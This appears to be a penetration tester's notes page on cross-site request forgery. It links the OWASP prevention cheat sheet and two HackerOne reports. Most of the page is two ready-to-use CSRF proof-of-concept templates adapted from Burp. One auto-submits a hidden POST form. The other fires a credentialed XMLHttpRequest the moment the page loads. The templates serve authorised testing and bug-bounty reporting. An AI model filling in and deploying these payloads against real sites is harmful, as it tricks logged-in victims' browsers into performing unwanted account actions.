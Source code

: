 **Resources:** https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html

**Real-World Examples:** https://hackerone.com/reports/204703 \
https://hackerone.com/reports/1122408

The Templates below are modified Burp PoCs. \
**CSRF PoC Template 1:**
```
<html>
  <body>
    <form action="FORM_ENDPOINT" method="POST">
      <input type="hidden" name="PARAMETER_NAME" value="PARAMETER_VALUE_ENCODED" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

**CSRF PoC Template 2, Modern:**
```
<html>
  <body>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "https:\/\/WEBSITE.COM\/PATH\/ENDPOINT", true);
        xhr.setRequestHeader("accept-language", "en-US,en;q=0.9");
        xhr.setRequestHeader("content-type", "application\/x-www-form-urlencoded");
        xhr.setRequestHeader("accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/avif,image\/webp,image\/apng,*\/*;q=0.8,application\/signed-exchange;v=b3;q=0.7");
        xhr.withCredentials = true;
        var body = "PARAMETER_NAME=PARAMETER_VALUE";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
      submitRequest();
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>
```